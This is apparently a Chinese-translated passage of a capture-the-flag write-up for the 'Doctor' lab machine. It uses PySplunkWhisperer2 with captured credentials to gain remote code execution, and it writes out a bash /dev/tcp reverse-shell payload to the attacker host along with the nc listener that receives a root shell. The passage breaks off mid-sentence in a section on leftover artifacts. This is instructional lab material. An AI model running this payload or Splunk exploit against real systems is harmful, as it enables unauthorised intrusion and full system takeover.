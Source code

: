 现在，我将启动并将有效负载从 更改为反向外壳：`nc``ping`

    root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmpceoe88rl.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.6:8181/
    10.10.10.209 - - [01/Nov/2020 06:17:57] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
    
    Press RETURN to cleanup
    
    [.] Removing app...
    [+] App removed
    [+] Stopped HTTP server
    Bye!
    

在连接的根壳上：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40142.
    bash: cannot set terminal process group (1140): Inappropriate ioctl for device
    bash: no job control in this shell
    root@doctor:/# 
    

我可以抓住：`root.txt`

    root@doctor:/root# cat root.txt
    fba452cc************************
    

## 超越根

### 剩余伪影

在《医生》上工作时，我有一个有趣的经历，并设法（在Jkr的一些帮助下）弄清楚发生了什么。

#### 情况

如果我在第一次重置数据库后在网页上创建一个帐户，然后重置该框，一旦出现该框，如果我刷新主页，我得到这个：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20201108113043144.png) 

我看到肖恩的一篇帖子，显然是试图利用盒子上的漏洞。但是，为什么我以 shaun 的身份登录？这个干净盒子上的帖子是什么？为了显示正在发生的事情，我需要显示：
